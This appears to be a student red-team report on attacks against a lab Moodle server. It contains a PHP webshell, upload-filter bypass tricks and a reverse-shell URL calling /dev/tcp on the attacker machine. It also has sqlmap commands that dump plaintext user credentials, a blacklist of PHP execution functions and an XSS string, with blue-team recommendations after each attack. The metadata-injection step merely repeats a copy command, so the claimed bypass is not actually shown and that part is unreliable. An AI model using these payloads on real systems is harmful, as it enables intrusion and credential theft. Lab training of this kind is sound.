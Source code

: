 # 🛡️ SSI Project – Red Team Exploitation Report
 
 This report presents the various exploitation attempts made as part of the Information Systems Security (ISS) project, from a Kali Linux machine aimed at compromising the Moodle web server hosted on Ubuntu.
 The aim was to obtain a reverse shell using an upload vulnerability.
 
 ## First attack
  
 ---
 
 ## 🔍 Objective
 
 The aim of the attack was to :
 
 - Bypass the **upload file filtering** system
 - Upload a **file containing malicious PHP code**.
 - Execute this code remotely via the browser
 - Establish a **reverse shell connection** to the Kali machine (attacker)
 
 ---
 
 ## 🔓 Technical context
 
 - Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
 - Attacking machine** : Kali Linux on the same local network (192.168.56.X)
 - PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :
 
 php
 eval(, system(, exec(, shell_exec(, base64_decode(,
 passthru(, pcntl_exec(, posix_getuid(, <script>, etc.
 
 ---
 
 🧨Attack I – Reverse Shell Attempts
 
 ### Step 1: Create a PHP reverse shell
 
 On Kali, I created a basic shell:
     
 ```bash
 <?php system($_GET['cmd']); ?>
 ```
 
 ### Step 2: Attempt to bypass with double extensions
 
 - First attempt: rename file to shell.php.png
 - Then: shell.png.php
     
 ![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)
          
 I then tried uploading the malicious file:   
          ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)
          
 
 We obtained :
 
 ![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)
 
 🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.
 
 
 Error message:
 
 
 ❌ File failed security scan
 
 
 ---
     
     
 Filtering Bypass Attempts
 
 Attempt: Appending PHP payload directly to an image
 
 ```bash
 echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
 mv shell.png shell.php.png
 ```
  
      
 Working Solution: Metadata Injection + Obfuscation 
 
    1. Use a clean, existing image
           
         ```bash
         cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
         ```
                           
         ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)
 
     
    2. Inject an obfuscated PHP payload into the image’s metadata
       ```bash
         cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
         ```
     
    This avoids all blacklisted keywords (system, eval, etc.)        
     
    3. Renommer l’image avec une double extension
       ```bash
         mv shell.png shell.php.png
         ```
 
    4. Upload successful  
 
    ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
     
 
 The file passed the scan because :
 
 - The visible image content was clean
 
 - The malicious payload was hidden in metadata
 
 - No blacklisted strings were detected
 
 
 ---
    
 Final Goal: Trigger Remote Code Execution
 
 1. Start a Netcat listener on Kali:
 
    ```bash
    nc -lvnp 4444
    ```
 
    ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
     
  2. Trigger the payload through the browser
     ```bash
     http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'
     ```   
 
 Conclusion :
 
 Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:
 
 ✅ Successfully bypassed file upload filtering
 ✅ Uploaded a disguised PHP webshell
 ✅ Injected a stealthy payload using image metadata
 ✅ Identified and documented backend protections
 
 This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.
 
 
 
 
 Blue Team Recommendations :
 
 To improve the defense against such attacks:
 
 ✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)
 
 ✅ Disable PHP execution in upload directories
 
 ✅ Rename and hash uploaded files server-side
 
 ✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis
 
 ---
 
 ## Second attack
 
 ---
 
 ## 🔍 Objective
 The goal of this attack was to:
 * Detect SQL injection vulnerabilities in the login process
 * Exploit the injection to extract data from the database
 * Demonstrate the risk of improperly handled SQL inputs
 * Retrieve sensitive information from the ssi_project database
 
 ---
   
 ## 🔓 Technical Context
 * Target (Victim): Ubuntu 22.04 running Apache2, MySQL 8.0, Moodle web service
 * Attacker (Red Team): Kali Linux, connected via internal network (192.168.56.X)
 * Login page vulnerable to SQL injection via POST parameter username
 * No input sanitization or prepared statements in the PHP back-end
 
 --- 
 ## 💥 Attack I – SQL Injection on Login Form
 
 ### Step 1: Reconnaissance and Injection Point
 The login form sends POST data to login.php:
 ```bash
 curl -X POST -d "username=test&password=test" http://192.168.56.100:8082/login.php
 ```
 Observed response:
 ```bash
 {"status": "error"}
 ```
 ![image](https://github.com/user-attachments/assets/60e6235f-f04b-4ba6-8fc6-c954126cd1c9)
 
 Testing with crafted payload:
 ```bash
 curl -X POST -d "username=' OR 1=1 -- -&password=x" http://192.168.56.100:8082/login.php
 Still returns:
 ```
 {"status": "error"}
 
 ![image](https://github.com/user-attachments/assets/64f92c05-19b1-4545-822c-e85994fd79b5)
 
 ### Step 2: Use sqlmap to Confirm Injection
 Using sqlmap:
 ```bash
 sqlmap -u "http://192.168.56.100:8082/login.php" --data="username=test&password=test" --batch --level=5 --risk=3
 ```
 
 Result:
 * SQLi confirmed on username via error-based, boolean-based, time-based, and UNION injection
 * Extracted tables: users, events
 
 
 ### Step 3: Dumping Database Contents
 #### 1: Detecting SQL Injection
 ```bash
 sqlmap -u "http://192.168.56.100:8082/login.php" \
        --method=POST \
        --data="username=test&password=test" \
        --batch --level=2 --risk=1
 ```
 Result: SQLMap identified that the username parameter is injectable via:
 
 Boolean-based blind
 
 Error-based
 
 Time-based blind
 
 UNION-based injection
 
 DBMS: MySQL >= 5.6
 
 #### 2: Database Enumeration
 
  List all databases
 ```bash
 sqlmap -u "http://192.168.56.100:8082/login.php" \
        --method=POST \
        --data="username=test&password=test" \
        -b --dbs
 ```
 ✅ Found database: ssi_project
 
  List tables from ssi_project
 ```bash
 sqlmap -u "http://192.168.56.100:8082/login.php" \
        --method=POST \
        --data="username=test&password=test" \
        -D ssi_project --tables
 ```
 
 ![image](https://github.com/user-attachments/assets/0882f0ff-8d11-40aa-bd27-e272df636eb9)
 
 ![image](https://github.com/user-attachments/assets/694a4ce4-672c-49df-b5e5-57c5e434a13a)
 
 ✅ Found tables: users, events
 
 #### 3: Dumping User Credentials
 ```bash
 sqlmap -u "http://192.168.56.100:8082/login.php" \
        --method=POST \
        --data="username=test&password=test" \
        -D ssi_project -T users --dump
 ```
 ![image](https://github.com/user-attachments/assets/d22ef777-7b28-4937-813a-2716f1a7460e)
 
 Extracted records:
 ```bash
 Database: ssi_project
 Table: users
 +----+----------------------+---------+----------+----------+
 | id | email                | role    | password | username |
 +----+----------------------+---------+----------+----------+
 | 1  | vince@bare.com       | student | bare     | vincent  |
 | 2  | jules@fedit.com      | teacher | fedit    | jules    |
 | 4  | gauthier@mallard.com | student | mallard  | gauthier |
 +----+----------------------+---------+----------+----------+
 
 ```
 ⚡ These passwords appear to be stored in plaintext, which is a major security vulnerability.
 
 And then with events table : 
 ```bash
 Database: ssi_project                                                                                                                                                   
 Table: events
 [3 entries]
 +----+---------+-----------------------------------------+------------+---------------------------------------+
 | id | user_id | title                                   | event_date | description                           |
 +----+---------+-----------------------------------------+------------+---------------------------------------+
 | 1  | 2       | Cours de PHP                            | 2025-04-02 | Introduction au langage PHP           |
 | 2  | 1       | R\\u00e9vision s\\u00e9curit\\u00e9 web | 2025-04-05 | <script>alert(\\"XSS!\\");<\\/script> |
 | 3  | 1       | Examen final                            | 2025-04-10 | Salle 203 - 14h                       |
 +----+---------+-----------------------------------------+------------+---------------------------------------+
 
 ```
 ![image](https://github.com/user-attachments/assets/9dc84bb9-a2b9-4104-949c-b87e0f961d48)
 
 
 ## ✅ Achievements
 * Detected and exploited a critical SQL injection vulnerability
 * Fully extracted user credentials and event data
 * Demonstrated the lack of prepared statements and input validation
 
 ## 🛡️ Blue Team Recommendations
 1. Use prepared statements with parameter binding
 2. Hash passwords using password_hash() instead of storing them in plaintext
 3. Implement WAF (Web Application Firewall) to block SQLi attempts
 4. Limit SQL error output in production to avoid exposing database structure
 5. Log and monitor login attempts to detect anomalies
 6. Use LIMIT 1 and safe user query patterns
 This report validates the critical impact of SQL injection and demonstrates the ease of database compromise in the absence of secure coding practices.
 

 c 